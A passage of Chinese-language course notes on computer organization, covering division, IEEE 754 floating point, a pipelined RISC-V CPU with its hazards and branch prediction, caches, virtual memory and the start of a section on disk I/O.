因为最开始的时候就左移了一次，最后就要右移一次把这个左移给抵消掉。而且事实上这里的 Reminder 寄存器要多一位（比如在这个例子中其实应该有 9 位），因为最后一步右移的存在，上一步左移出来的数据不能直接丢弃，还需要右移回去。
对于有符号数的除法，就直接用它们的绝对值来做无符号除法，然后再给商和余数加上符号即可。
余数的符号始终与被除数相同，商的符号可根据除数、被除数和商来决定，即
- 余数的符号 = 被除数的符号
- 商的符号 = 被除数的符号 \(\oplus\) 除数的符号
除以零时会发生溢出，硬件不负责对此进行处理，由软件负责检测和处理除零问题
Floating point number¶
在数字位数较多时我们常用科学计数法来表示十进制数，对于二进制数，我们也可以采用类似的方式进行表示，这就是浮点数（Floating point number）表示数字的思路。
Normal Numbers（规格化数）¶

我们通常讨论的浮点数都遵守 IEEE 754 标准，包括单精度和双精度两种，在 C 语言中就是我们常见的float和double
| 位数 | S | exp | frac |
|---|---|---|---|
| Float | 1 | 8 | 23 |
| Double | 1 | 11 | 52 |
规格化浮点数采用 \((-1)^S \times M \times 2^E\) 的形式来表示，其中
- S: sign. \(S = 1\) 时表示负数
- M: 位数. 通常而言 $M = 1.frac = 1 + frac $，其中 frac 为尾数部分
-
E: 阶码. 通常而言 \(E = exp - Bias\)
对于单精度浮点数 \(Bias = 127\)（\(2^7-1\)），对于双精度浮点数 \(Bias = 1023\)（\(2^{10}-1\)）.
Note
-
为什么要把 exponent 放在前面？
因为数的大小主要由 exponent 决定，把 exponent 放在前面可以更快地判断浮点数的大小
-
exponent 采用移码表示是为了防止一个浮点数中出现两个符号位，同时在对指数位进行运算时，无符号数显然要比有符号数更简单
- 对于规格化数，尾数一定会有前导
1，因此实际上无脑我们只需要表示小数部分（fraction）就足够了
Precision¶
单精度和双精度浮点数转换为十进制数时的精度（小数点后有效位数）分别为：
-
single: approx \(2^{-23}\)
\(23 \times \log_{10} 2 \approx 23 \times 0.2 \approx 7\) demical digits of precision
-
double: approx \(2^{-52}\)
\(52 \times \log_{10} 2 \approx 52 \times 0.2 \approx 16\) demical digits of precision
Limitations¶
显然，浮点数能表示的范围也是有限的
- Overflow(上溢): The number is too big to be represented
- Underflow(下溢): The number is too small to be represented
Denormal Numbers（非规格化数）¶
我们容易注意到上面的表示方法，即规格化数，无法表示零以及零附近很小的数，这时候就要使用到非规格化数。对于这样的特殊情形，IEEE 754 有特别规定，用特殊的值保存它们：

在上表中：
- 第 1 条表示 0，此时指数和尾数都是 0
- 第 2 条表示非规格化数，这种数主要是为了用来表示一些很小的数，它的取值为 \((-1)^S \times (0 + fraction) \times 2^{-Bias}\)
- 第 3 条表示正常的浮点数；
- 第 4 条表示无穷大或者无穷小，出现在 exponent overflow 或者浮点数运算中非 0 数除以 0 的情况；
- 第 5 条表示非数（Not a Number），出现在 \(0/0\), \(inf/inf\), \(inf - inf\), \(inf \times 0\) 的情况
Floating-Point Addition¶

浮点数的加法可以分为以下步骤（减法类似）：
- Alignment：指数对齐，将小指数对齐到大指数
- The proper digits have to be added
- Addition of significands：尾数部分相加减
- Normalization of the result： 将结果规格化
- Rounding：将 Fraction 部分舍入到正确位数；舍入结果可能还需要规格化，此时回到步骤4继续运行
为何在对齐时要把小指数对齐到大指数？
首先，小对大的过程是在小指数的 fraction 前补0，可能导致末尾数据丢失；大对小的过程是在大指数的 fraction 后补0，可能导致前面的数据丢失。
在计算过程中，我们保持的精确位数是有限的，而在迫不得已丢去精度的过程中，让小的那个数的末几位被丢掉的代价比大的前几位丢失要小太多了，也就是说，丢弃掉末尾的数据对整个数字的改变最小。
Example

FP Adder Hardware

- 蓝色线为控制通路，黑色线为数据通路
- 首先比较两个浮点数的指数部分，并进行对齐。同时尾数可能还需要加上前导
1 - Normalize 部分是对计算结果进行规格化处理，假如后面的舍入步骤导致浮点数变得非规格化了，那么就需要再进行一次 Normalize
Floating-Point Multiplication¶
浮点数的乘法要分别处理符号位、指数位和尾数：
-
Add exponents
这里要减去一个 Bias，因为 Bias 加了 2 次
-
Multiply the significands
- Normalize
-
Over/Underflow?
有的话要抛出异常，通过结果的指数判断。
-
Rounding
-
Sign
根据两个操作数的符号决定结果的符号
Example

Data Flow

- 右边返回的箭头：Rounding 后可能会进位，需要重新规格化
Accurate Arithmetic¶
IEEE 754 规定了一些额外的舍入控制，用来保证舍入的精确性

Round to nearest even 只对 0.5 有效，别的数都和普通的四舍五入一样
-
guard/round- 一般的浮点数后面还会有 2 bits，分别称为
guard位和round位，其主要目的是让计算结果的舍入更加的精确： - 只在运算的过程中保留，结果中不会体现
事实上加法只需要用到 guard，但是对于乘法，如果存在前导 0，需要将结果左移，这时候 round bit 就成了有效位，能避免精度的损失。
- 一般的浮点数后面还会有 2 bits，分别称为
-
sticky只要 round 右边出现过非零位，就将sticky位置1，这一点可以用在加法的右移中，可以记住是否有 1 被移出，从而能够实现 "round to nearest even"。 -
ulp (units in the last place)The number of bits in error in the least significant bits of the significant between the actual number and the number that can be represented.
- 精度损失不会超过 0.5 个
ulp
- 精度损失不会超过 0.5 个
Pricessor¶
约 3904 个字 3 行代码 21 张图片 预计阅读时间 16 分钟
Tip
这一章的内容光靠理论课是不够的，还是要自己做实验把 CPU 实现一遍才能真正理解贯通这些知识。
实验的内容和理论课还是有一些不同的，但是只要能独立完成实验，这一章的内容也就基本都搞清楚了，所以这一章的笔记会比较简略。 （主要是做完实验之后会觉得好多东西都是显然的，就懒得写了）
Introduction¶
Instruction Execution Overview¶
影响 CPU 性能的因素有：
-
Instruction count
- Determined by ISA and compiler
同一段程序在不同指令集（计算机架构）和编译器的条件下会得到不同的指令总数
-
CPI and Cycle time
- Determined by CPU hardware
For every instruction, the first two steps are identical
- Fetch the instruction from the memory
- Decode and read the registers
Next steps depend on the instruction class
-
Memory-reference
load,store -
Arithmetic-logical
- branches
CPU Overview¶

上图是一个非常简单的只能实现少部分指令的 CPU 简图
-
使用 ALU 进行计算
- 计算得到算术指令的结果
- 计算出 load/store 指令所需的内存地址
-
进行 branch 指令的比较
在这里的实现中，我们使用 ALU 进行比较操作，需要跳转到的地址由单独的 Adder 负责计算
-
Access data memory for load/store
- PC \(\leftarrow\) target address or PC + 4
Tip
这里是一个单周期的 CPU，即一条指令的所有操作都要在一个周期内完成，其中包括从内存中读取出指令内容以及从内存中读取数据。
因此我们需要把 InstMem 和 DataMem 分开，这样才能在一个周期内既读指令又读数据。
Control¶

由于寄存器堆的读写、内存的读写、ALU 需要执行的具体操作以及各种多路选择器的选择等都需要相应的控制信号，为了便于管理各种控制信号，我们需要专门设计一个控制单元，它负责从指令内容中解码（decode）得到该条指令所对应的各种信号，并把这些信号送给相应的模块。
上图中的蓝线就是这个简单 CPU 的各种信号线。
Building a datapath¶
Datapath 即数据通路，其中包含着 CPU 整体的各个元件
-
Elements that process data and addresses in the CPU
Registers, ALUs, mux’s, memories, ...
数据通路中需要包含各种指令所使用到的各种元件
Instruction execution in RISC-V¶¶
在单周期 CPU 中，我们可以把一条指令的执行分为如下几个步骤：
-
Fetch:
- Take instructions from the instruction memory
- Modify PC to point the next instruction
-
Instruction decoding & Read Operand:
- Will be translated into machine control command
- Reading Register Operands, whether or not to use
-
Executive Control:
- Control the implementation of the corresponding ALU operation
-
Memory access:
-
Write or Read data from memory
Only ld/sd
-
-
Write results to register:
- If it is R-type instructions, ALU results are written to rd
- If it is I-type instructions, memory data are written to rd
-
Modify PC for branch instructions
- 仅当 Branch 和 jal、jalr 指令会有这个阶段
Instruction fetching¶
首先我们需要先搞清楚各种指令的具体操作，这样才能明确它们所需要的元件和控制信号
-
R-format Instructions
- Read 2 register operands
- Perform arithmetic/logical operation
- Write register result
-
Load/Store Instructions
- Read register operands
-
Calculate address using 12-bit offset
- Use ALU, but sign-extend offset
-
Load: Read memory and update register
- Store: Write register value to memory
-
Branch Instructions
- Read 2 register operands
-
Compare operands
- use ALU, substract and check Zero output
-
Calculate target address
- Sign-extend displacement
- Shift left 1 place (halfword displacement)
- Add to PC value
Path Built using Multiplexer¶
下面我们来根据各种指令类型在 Datapath 中逐渐添加各种元件
- R-type

-
I-type
- For ALU-R-I
- For load

- S-type

- SB-type

- UJ-type

Full datapath

A simple Implementation Scheme¶
对于控制信号，这里只对 ALU 进行详细介绍，其他的各种读写信号和多路选择器选择信号就略过了
ALU used for
- Load/Store: F = add
- Branch: F = subtract
- R-type: F depends on opcode
课件中给出的方法是进行两级解码 2-level decode

-
先对指令的 opcode 进行一级解码，得到除了
ALU_opration各种控制信号同时会解码出 2 位的
ALU_op
-
假如这一条指令是 ALU 指令的话，就再根据 funct3 和 funct7 得到 ALU 具体要进行何种计算

关于其他控制信号
对于其他的控制信号，例如寄存器读写信号、数据内存读写信号、写入寄存器堆/内存的数据来源控制信号等只需要在一级解码时生成就可以了，并不会用得到第二级的解码，这里就不再赘述了。
An Overview of Pipelining¶
Pipelining¶
所谓流水线就是把 CPU 的执行过程分为多个阶段，每个阶段执行指令的其中一部分，这样就可以在一个时钟周期内同时执行多个指令的不同阶段，而不会像单周期 CPU 那样在执行指令时总是要等待上一条指令执行完毕，从而避免硬件资源的空闲。

就像上面的图一样，我们可以在同一个时刻进行多个可以并行的操作，从而提高整体的效率。
RISC-V Pipeline¶
在 RISC-V 中，我们可以把每一条指令都分为以下 5 个阶段：
- IF: Instruction fetch from memory
- ID: Instruction decode & register read
- EX: Execute operation or calculate address
- MEM: Access memory operand
- WB: Write result back to register

- 当指令的数量足够多时，在理想情况下平均每一个时钟周期完成一条指令，因此 $ CPI \approx 1 $
- 每个阶段所需的时间不同，因此流水线 CPU 的时钟周期取决于最慢的阶段，即时钟周期是最长的阶段所需的时间
- 流水线可以提高吞吐量（throughput） 但并没有改变每条指令的执行时间（Latency）
RISC-V Pipelined Datapath¶
由于流水线 CPU 中的每个阶段都是并行的，每一个阶段执行的内容和所需要的各种数据、信号也是不同的。因此我们需要在数据通路中添加一些寄存器来单独存储每个阶段的数据，这样才能保证每个阶段的数据不会相互干扰。

由于各种数据和信号都是在 ID 阶段产生的，后续在 EX、MEM、WB 阶段还会用到这些数据和信号，因此我们要把还需要用到的信号一步步传递下去，这样才能保证每个阶段所拿到的数据都是自己这一条指令所对应的数据。
Pipline Hazards¶
Hazard 的意思是冲突/竞争/冒险，指的是在流水线中由于各种原因导致的指令执行结果不符合预期的情况。
-
Structural Hazards
- A required resource is busy.
- 由于硬件资源的限制导致的冲突。例如多个指令同时需要访问同一个硬件资源，如在同一个周期里内存同时被读和写。
-
Data Hazards
- Need to wait for previous instruction to complete its data read/write.
-
由于数据的依赖关系导致的冲突。
例如一条指令需要用到上一条指令的结果，但是上一条指令还没有运行到 WB 阶段把数据写回寄存器/内存中，下一条指令就把对应寄存器/内存地址的值取出来了，这样就会导致取出错误的数据。
-
Control Hazards
- Deciding on control action depends on previous instruction.
-
由于控制流的冲突导致的冲突。
例如一条分支指令的还没有判断出是否需要跳转，但是下一条指令已经被取出来并执行了，这样就会导致错误执行本不应该执行的指令。
Structural Hazards¶
在计组中我们会遇到的结构冒险只有内存上的结构冒险（因为寄存器堆是允许同时进行读写操作的），例如如果只有一块内存，但 IF 和 MEM 阶段都需要使用这块内存，那么 IF 就会被 stall 暂停，产生一个 bubble，等到 MEM 阶段完成后再继续执行。
但是我们可以把指令内存和数据内存分开（冯诺依曼架构），这样两者就不会出现冲突了。

为何有时候会允许机器出现结构冒险？
- To reduce cost .
- i.e. adding split caches, requires twice the memory bandwidth.
- also fully pipelined floating point units costs lots of gates.
- It is not worth the cost if the hazard does not occur very often.
- To reduce latency of the unit.
- Making functional units pipelined adds delay (pipeline overhead -> registers).
- An unpipelined version may require fewer clocks per operation.
- Reducing latency has other performance benefits, as we will see
Data Hazards¶
An instruction depends on completion of data access by a previous instruction.
stall¶
Example

在这个例子中我们使用了一个最为朴素的办法来解决数据冒险，在两条指令之间插入两个空指令（即 bubble），从而保证前一条指令在 WB 阶段把数据写回寄存器后，后一条指令才在 ID 阶段取出数据。
Forwarding¶
除了直接插入 bubble 之外，我们还可以通过前递（forwarding）来解决数据冒险。
-
Use result when it is computed
- Don't wait for it to be stored in a register
- Requires extra connections in the datapath
Example

在这个例子中我们可以看到，我们在硬件设计中添加了一个旁路输入，这样就可以把前一条指令在 EX 阶段计算得到的结果直接传递给后一条指令，从而不必 stall 等待前一条指令的结果写回寄存器。
问题的关键显然在于如何判断是否需要前递，事实上我们可以发现，出现数据冒险时，实质上就是前两条指令要改写当前指令的源寄存器，因此我们得到了判断条件：
EX/MEM.RegisterRd = ID/EX.RegisterRs1EX/MEM.RegisterRd = ID/EX.RegisterRs2MEM/WB.RegisterRd = ID/EX.RegisterRs1MEM/WB.RegisterRd = ID/EX.RegisterRs2
由于我们的Rd实际上就是inst[11:7]，但是在许多指令中并没有Rd的存在，或者Rd是不可能被改写的x0，因此我们还需要添加一些判断条件：
- EX/MEM.RegWrite 或 MEM/WB.RegWrite 不为 0
-
EX/MEM.RegisterRd 或 MEM/WB.RegisterRd 也不能为 0
即目的寄存器是
x0的话，就不需要前递了。

除此之外，我们可能遇到前两条指令都会对同一个寄存器进行改写的情况，例如
这里我们只考虑最新的一条指令的结果，例如上面的第 3 条指令需要的是来自第 2 条指令的结果，而不是第 1 条指令的结果。也就是说我们在前递时要加一个条件，只有在 EX/MEM 阶段不会出现 forwarding 时，才会接受 MEM/WB 阶段的 forwarding。
Load-Use Data Hazard¶
虽然看起来 forwarding 很美好，但它并不能解决所有的数据冒险问题，例如 Load-Use Data Hazard，即后一条指令需要使用到前一条 Load 指令的结果。
之前我们提到的 forwarding 是把 EX 阶段的结果直接传递给后一条指令，但是 Load 指令的结果我们在 MEM 阶段才能得到，因此这时候我们就没办法把数据及时传回给后一条指令了，就必须 stall 一个周期
Example

对于 Load-Use Data Hazard 而言，stall 是不可避免的，因此我们也可以得知流水线 CPU 的 CPI 由于这一部分 stall 的存在不可能达到 1。
Load-Use Hazard Detection
load 指令的后一条指令在 ID 阶段时就可以检测出来是否会出现 Load-Use Data Hazard
ID/EX.MemRead and ((ID/EX.RegisterRd = IF/ID.RegisterRs1) or (ID/EX.RegisterRd = IF/ID.RegisterRs2))

当我们在 load 的后一条指令的 ID 阶段检测到 Load-Use Data Hazard 时，我们就需要进行 stall，具体的操作是：（此时 load 指令正处于 EX 阶段）
- 保持 PC 寄存器和 IF/ID 寄存器中的值不变
- 将 ID/EX 寄存器中的值清零，这样在下一个时钟周期里 EX 阶段中就会出现一个 bubble
Control Hazards¶
无论是 Branch 还是 Jump 指令，都在 EX 阶段才能通过计算得知是否需要跳转、需要跳转到哪一个地址，并且这一条指令在执行到 MEM 阶段时 PC 才会被修改为跳转的目标地址。
假如最终发现需要跳转，但是紧接着跳转指令的下两条指令已经被取出来开始执行了，如果不加以处理，那么这两条本不该执行的指令就会被错误地执行，这就是 Control Hazards。
stall¶
和数据冒险一样，我们可以用最简单粗暴的方法来解决控制冒险，即插入 bubble。每一次在 ID 阶段发现当前指令是 Branch/Jump 指令时，我们就 stall 两个周期，这样就可以防止执行不该执行的指令。
但是这样会大大影响 CPU 的运行效率，因此我们需要考虑其他方法来解决控制冒险——分支预测。
Static Branch Prediction¶
static predict 实际上就是在遇见 Branch 指令时，我们总是预测它会跳转，或总是预测它不跳转，这在硬件层面上就可以实现。
-
predict taken
- Always assume branch is taken
- If not taken, flush pipeline
-
predict not taken
- Always assume branch is not taken
- If taken, flush pipeline
对于 RISC-V 而言，predict not taken 总是要比 predict taken 好，因为我们在设计硬件的时候就可以无论是否需要跳转，都把紧接着跳转指令的两条指令都取出来执行
- 如果不需要跳转，那么就接着执行后面的指令，而不需要做任何处理
- 如果需要跳转，我们只需要把后面两条指令的变为 bubble，即把 IF/ID 和 ID/EX 寄存器中的值清零。
Dynamic Branch Prediction¶
In deeper and superscalar(多发射) pipelines, branch penalty is more significant.
动态分支预测是在运行时根据历史记录来预测分支的行为，这样可以提高预测的准确性，即根据前面几次跳转指令的行为来预测下一次跳转指令的行为。
- Branch prediction buffer (aka branch history table)
- Indexed by recent branch instruction addresses
- Stores outcome (taken / not taken)
-
To execute a branch
- Check table, expect the same outcome
- Start fetching from fall-through or target
- If wrong, flush pipeline and flip prediction
我们常见的动态分支预测有两种：1-bit predictor 和 2-bit predictor
实际上还有其他的分支预测方法，例如把多次出现的跳转的值储存到一个表中，然后根据这个表来预测下一次跳转的行为，这样可以提高预测的准确性。
Exception¶
“Unexpected” events requiring change in flow of control.
-
Exception 异常
- Arises within the CPU
- e.g. undefined opcode, syscall, …
-
Interrupt 中断
- From an external I/O controller
Handling Exceptions¶
-
保护CPU现场，进入异常
-
Save PC of offending (or interrupted) instruction
- In RISC-V: Supervisor Exception Program Counter (mEPC)
-
Save indication of the problem
- In RISC-V: Supervisor Exception Cause Register (mCAUSE)
-
64 bits, but most bits unused
- Exception code field: 2 for undefined opcode, 12 for hardware malfunction, …
-
-
处理中断事件
- Jump to handler，mtvec 寄存器负责提供中断处理程序的地址
-
退出异常，恢复正常操作
- 当异常程序处理完成后，最终要从异常服务程序中退出，并返回主程序。对于机器模式，使用 MRET 退出指令，返回到 SEPC 存储的 pc 地址开始执行。
Handler Actions¶
被称为中断服务程序，实际上就是内存中专门负责处理中断和异常的程序
- Read cause, and transfer to relevant handler
- Determine action required
-
If restartable
- Take corrective action
- use SEPC to return to program
-
Otherwise
- Terminate program
- Report error using SEPC, SCAUSE,

Exceptions in a Pipeline¶
-
Another form of control hazard
因为出现中断或者异常时，我们需要立即停止当前的指令执行，转而跳转到中断服务程序的地址，因此这也算是一种 control hazard。
Example
Consider overflow on add in EX stage
add x1, x2, x1
- Prevent
x1from being clobbered - Complete previous instructions
- Flush
addand subsequent instructions - Set Cause and SEPC register values
- Transfer control to handler
Large and Fast: Exploiting Memory Hierarchy¶
约 3484 个字 14 张图片 预计阅读时间 14 分钟
Introduction¶
Locality¶
我们知道指令和数据都储存在 memory 中，程序运行时需要访问 memory，这是比较耗时的。我们注意到程序对 memory 的访问有以下两个特点：
-
Temporal Locality（时间局部性）: 如果 memory 中的一个元素被访问，那么它很可能在不久后被再次访问
- 例如循环体中的指令等
-
Spatial Locality（空间局部性）: 如果 memory 中的一个元素被访问，那么它附近的元素也很可能被访问
- 例如数组中的元素、连续执行的指令等
根据上面两个特点，我们可以在常规的 memory 之上增加一层访问速度更快，但容量更小的存储，称为 cache。cache 会存储最近被访问的 memory 中的数据，利用数据的局部性加快程序访问数据的效率。
- Memory hierarchy
- Store everything on disk
-
Copy recently accessed (and nearby) items from disk to smaller DRAM memory
- Main memory
-
Copy more recently accessed (and nearby) items from DRAM to smaller SRAM memory
- Cache memory attached to CPU

-
Block (aka line): unit of copying
从内存中复制到 cache 的数据以 block 或称 line 为单位，它通常是 byte（也可能是 word）的若干次方那么大。
-
Hit: The CPU accesses the upper level and succeeds.
上级的存储器中有我们需要的数据，不需要访问下级存储器。
- Hit rate: hits / accesses
- Hit time: 访问上级存储器并且判断是否命中的时间
-
Miss: The CPU accesses the upper level and fails.
上级的存储器中没有我们需要的数据，需要从下级存储器取上来
- Miss rate: misses / accesses = 1 - hit rate
- Miss penalty: 访问下级存储器，找到相应的 block 并且将它数据复制到上级存储器的时间
The basics of Cache¶
下面我们来具体关注 cache 是怎么实现的，主要需要讨论的问题是：
- 如何知道一个 block 是否在 cache 里？
- 如果它在 cache 中的话，如何找到它？
Direct Mapped Cache¶

所谓 direct mapped 就是内存中的每一个 block 都只能对应于 cache 中的一个位置，并且 cache 可以容纳的 block 数量通常都是 2 的幂次，因此我们可以用这个这些数据的内存地址模上 cache 的大小来得到它在 cache 中的位置，得到的结果其实就是内存地址的低位，我们用 index 来表示。
但是因为 cache 的大小是一定小于内存大小的，这样就会导致不同的 block 有可能会映射到同一个位置，因此我们为了判断一个 block 中的数据是哪一个地址的，我们还需要额外保存的信息，这个信息我们称为 tag。
- 由于 block 中的低位是 index，因此我们只需要把地址的高位作为 tag 就可以了
除了 tag 之外，我们还需要确定 cache 中的数据是从内存中取出来的有效数据，还是一些无用的杂乱数据，我们使用 valid bit 来表示这个 block 是否是有效的。
- Valid bit: 1 = present, 0 = not present

因为一个 block 中会有多个 byte 的数据，因此在地址中还有一个 byte offset，需要注意的是我们的内存都是以 byte 为单位寻址的，所以 byte offset 的大小取决于一个 block 中有多少个 byte。
- byte offset：由 block size 决定，即一个 block 有多少个 byte
- index ：由 cache size 决定，即 cache 中有多少个 block
-
tag：由总的地址位宽减掉其他位决定
tag = address width - index width - byte offset width
Bits in Cache

block size
一般而言 block size 越大，miss rate 会更低
- 根据空间局部性的特点可以知道这一点
但在一个大小固定的 cache 中
- 更大的 block \(\Rightarrow\) 更少的 block \(\Rightarrow\) 更高的 miss rate
- 更大的 block 也会造成空间的浪费，因为有时候我们只需要 block 中的一小部分数据
同时更大的 block size 也会带来更大的 miss penalty
因此实际上 block 的大小是一个 trade-off
Handling Cache hit and Misses¶
在对内存进行读和写的时候发生 cache miss 时的处理方式是不同的
Read hit：直接从 cache 中读取数据
Read miss：
-
data cache miss：
先把对应的 block 从内存中取到 cache 里，然后再读
-
instruction cache miss：
暂停 CPU 的运行，即保持 PC 不变，从 memory 里把对应的 block 拿到 cache，然后重新运行当前这条指令
Write hit
-
write-back：只把数据写到 cache 中，等到这个 block 要被替换出去的时候再把它的内容写回。
这种情况需要在 cache 中额外添加一个 dirty bit，用来表示这个 block 是否被修改过，如果被修改过，那么在替换出去的时候需要把它的内容写回到内存中；否则这个 block 被替换的时候就不需要写回内存了。
-
write-through：把数据同时写到 cache 和 memory 中，这样可以保证 cache 和 memory 中的数据一致，但缺点是每一次 write 都要访问内存，操作的速度是很慢的。
-
一个改进的方案是添加一个 write buffer，当需要改写 main memory 的时候把对应的内容先放到这个 buffer 里去，等到空闲时再把 buffer 中的内容写到 memory 中。
当然如果出现 buffer 满了的情况，也需要暂停 CPU 去做写入 memory 的工作，因此如果 main memory 的写入速率低于 CPU 产生写操作的速率，那么多大的缓冲都无法避免暂停 CPU 的情况。
-
Write miss
- write-allocate：类似于 read miss，先把 block 从 memory 中取到 cache 中，然后再写入
- write-around（or write-no-allocate）：直接写入 memory，不把 block 从 memory 中取到 cache 中
write back 只能和 write allocate 配合使用；write through 通常和 write around 配合使用
Deep concept in Cache¶
对于 cache 的设计，我们主要关注以下 4 个问题
- Where can a block be placed in the upper level? (Block placement)
- How is a block found if it is in the upper level? (Block identification)
- Which block should be replaced on a miss? (Block replacement)
- What happens on a write? (Write strategy)
Block Placement¶
-
Direct mapped：直接映射
每一个 block 只能映射到 cache 中的一个位置，它对应的 index 是 block 的地址模上 cache 的块的数量得到的
-
Fully associative：全相联
Block can go anywhere in cache.
只要有空位，block 可以存放在 cache 中的任何一个位置
- 好处是可以降低 miss rate
- 坏处是每一次都要遍历整个 cache 才能判断一个 block 是否在 cache 中，即 hit time 增加了
-
Set associative：组相联
Block can go in one of a set of places in cache.
组相联介于上面两种方法之间，cache 被分成了若干个 set，每一个 set 里有若干个 block，每一个 block 都对应于一个 set，可以被存放在这个 set 中的任意一个位置
- 2-way set associative：每一个 set 里有两个 block
- 4-way set associative：每一个 set 里有四个 block
- n-way set associative：每一个 set 里有 n 个 block
通常 set associative 的 cache 会比 direct mapped 的 cache 有更低的 miss rate，但是 hit time 会比 direct mapped 的 cache 高
Tip
事实上
- Direct mapped 相当于 1-way set associative
- Fully associative 相当于 m-way set-associative（其中 m 是 cache 中 block 的数量）

Block Identification¶
我们通过 tag 来判断 cache 中的 block 到底对应的是哪一个内存地址的数据，而 tag 的大小又取决于 cache 的大小（index）和 block 的大小（byte offset）。
- 直接映射只需要比较 cache 中一个块的 tag
- 全相联需要依次对照 cache 中所有块的 tag
- 组相联需要先找到对应的 set，然后再对照 set 中所有块的 tag
The Index field selects
- 全相联没有 index
- 组相联的 index 取决于 set 的数量，即 \(\text{index} = \log_2(\text{number of sets})\)
- 直接映射的 index 取决于 cache 中块的数量，即 \(\text{index} = \log_2(\text{number of blocks})\)
同时，byte offset 取决于一个块内 byte 的数量 \(\text{byte offset} = \log_2(\text{block size})\)

计算 cache 的 tag


Block Replacement¶
当一个 block 要被复制到 cache 中时，如果发现这时候它对应的位置已经被占满了，那么就要把 cache 中的一个 block 替换掉，这个过程就是 block replacement。
对于 direct-mapped cache，我们只需要替换掉它对应的那个位置上的块即可；但对于 set-associative cache 和 fully-associative cache，它有多个可以选择的位置，那么我们就需要一个替换策略来决定替换哪一个 block。
-
Random replacement —— randomly pick any block
- Easy to implement in hardware, just requires a random number generator
- Spreads allocation uniformly across cache
- May evict a block that is about to be accessed
-
Least-recently used (LRU) —— pick the block in the set which was least recently accessed
- Assumed more recently accessed blocks more likely to be referenced again
-
This requires extra bits in the cache to keep track of accesses.
需要额外的 bit 来储存信息，从而实现 LRU
-
First in,first out（FIFO）—— Choose a block from the set which was first came into the cache
Write Strategy¶
上面在介绍 write hit/miss 的时候实际上就已经把 write strategy 介绍了，这里就不再赘述了。
Virtual Memory¶
Main Memory act as a “Cache” for the secondary storage.
考虑到内存的层次架构，我们可以把主存当成磁盘的一个缓存
- 所有的进程都共享同一个内存，但是实际上每一个进程都只关心自己的内存空间，并不关系其他程序在内存的哪里。也就是说，每一个进程都认为自己独享了一片地址空间，并且上面的内容是“连续的”，我们把这种地址空间称为虚拟内存空间（virtual memory）
- 但实际上我们不可能保证每一个进程所使用的内存都是连续的，因此我们需要采取一种措施来把“连续”的虚拟地址（virtual addresses）映射到内存中的真实地址（physical addresses），它称为 address translation

Pages: virtual memory blocks¶
page 是虚拟地址到物理地址映射的最小单位
Page faults: the data is not in memory, retrieve it from disk
-
huge miss penalty, thus pages should be fairly large e.g. 4KB
增大 page 的大小可以一定程度上减少 page fault 的次数
-
reducing page faults is important
因为每一次出现 page fault 我们都需要访问一次 disk，这是非常耗时的（访问时间可以达到访问 memory 的十万倍），因此我们需要尽可能减少 page fault，例
-
can handle the faults in software instead of hardware
出现缺页时由操作系统进行处理，而非在硬件层面进行处理
-
using write-through is too expensive so we use write back
访问硬盘太慢了，因此我们要采用 write back 策略
Page Tables¶
我们使用一个表格来记录虚拟地址和物理地址之间的映射关系，它被存储在 memory 中，称为页表（page table）。
一个虚拟地址被分割成两部分
- 一部分是 page offset，大小由 page 含有的 byte 数量决定
- 另一部分是 virtual page number，它的作用相当于 page table 的 index，我们需要根据它来找到页表中对应的 entry，这个 entry 中储存的内容就是物理地址的高位，即 physical page number
page table

如上图所示，上图中一个 page 的大小为 4KiB = \(2^{12}\) bytes，于是 page offset 为 12-bit，虚拟地址的剩余部分就是 virtual page number。
最后我们从 page table 中取出来 physical page number 之后把它和 page offset 组合到一起，就最终得到了这个进程所需内容在内存中的真实地址。
每一个进程都有自己各自的 page table，program counter 和 page table register（用来存储它对应的 page table 的位置），当我们在进程中切换时，只需要切换页表就可以了。
由于出现 page fault 会带来很大的开销，因此为了提高 hit rate，我们在页表中使用全相联的方式。
How larger page table?

Making Address Translation Fast——TLB¶
事实上我们使用页表来进行虚拟地址和物理地址之间的转换时，也是相当耗时的
- 先根据 virtual page number 找到对应 page table entry 在 page table 中的偏移
- 再把这个偏移加上 page table register 中储存的地址，得到对应的 entry 在内存中的地址
- 然后根据这个 entry 中的内容得到 physical page number，最终得到 physical address，并访问对应的字节内容
于是我们设计了一个专门为 page table 服务的 cache，称为 translation look-aside buffer (TLB)，这样我们需要进行地址转换时，就可以先在 TLB 中找，找不到再去页表中找。

Tip
- 虽然页表的作用很像是一个 cache，但它实际上是存储在内存中的，并不是 cache
- TLB 确实是一个 cache

当出现 TLB miss 的时候，CPU 会去 page table 中查找对应的项
- 如果发现对应项的 valid bit 是 1，那么就把它拿到 TLB 里此时被替换掉的 TLB entry 的 dirty bit 如果是 1，也要写回 page table）
- 如果对应项的 valid bit 是 0，就说明这一个 page 不在内存中，会触发一个 page fault。OS 会先把这个 page 从 disk 中取到内存中，并更新 page talbe，最后再重新执行一次 TLB 的查找

- TLB，page table 和 cache 全部 hit 的情况是非常显然的，因此就没有出现在上表中
- 上述的最后三种情况是不可能出现的，因为当出现 page table miss 的时候就说明这一个 page 并不在内存中，因此 TLB 和 cache 都不可能 hit
Protection in the virtual memory System
虚拟内存技术使得各个进程之间并不知道其他进程的物理地址空间，只有操作系统（OS）知道所有进程的地址空间，这样就保证了进程之间不会相互干扰，也避免了某些进程对于内存空间的破坏。
Storage, Networks and Other I/O Topics¶
约 3255 个字 17 张图片 预计阅读时间 13 分钟
Introduction¶
- I/O 设备的设计需要考虑许多方面，包括可拓展性（extensibility）、可靠性（dependability）、性能（performance）、适应性（resilience）等等
-
Performance of I/O system depends on:
- connection between devices and the system
- the memory hierarchy
- the operating system

每一个 I/O 设备都有一个对应的控制器，负责管理设备的操作。控制器通过总线（bus）与 CPU 进行通信，从而实现 I/O 设备与 CPU 的交互。
Three characteristics
-
Behavior
- Input (read once), output (write only, cannot read) ,or storage (can be reread and usually rewritten)
- 数据从 I/O 设备到主存储器称为输入（input），从主存储器到 I/O 设备称为输出（output）
-
Partner
- Either a human or a machine is at the other end of the I/O device, either feeding data on input or reading data on output.
- 与 I/O 交互的对象是人还是机器
-
Data rate
-
The peak rate at which data can be transferred between the I/O device and the main memory or processor.
- 数据传输的速率
如何评价一个 I/O 设备的性能主要取决于它的具体用途
-
Throughput
这里的吞吐量可以指单位时间传输的数据量，也可以指单位时间进行的 I/O 的操作的数量
-
Response time
响应时间，其实就是进行一次 I/O 操作所需的时间
-
both throughput and response time
同时考虑上面两个因素
Disk Storage and Dependability¶
Two major types of magnetic disks
- floppy disks
-
hard disks
- larger
- higher density
- higher data rate
- more than one platter
The organization of hard disk¶
-
platters: disk consists of a collection of platters, each of which has two recordable disk surfaces
一个硬盘实际上是由多个盘片堆叠起来的，每个盘片都有两个可记录的表面
-
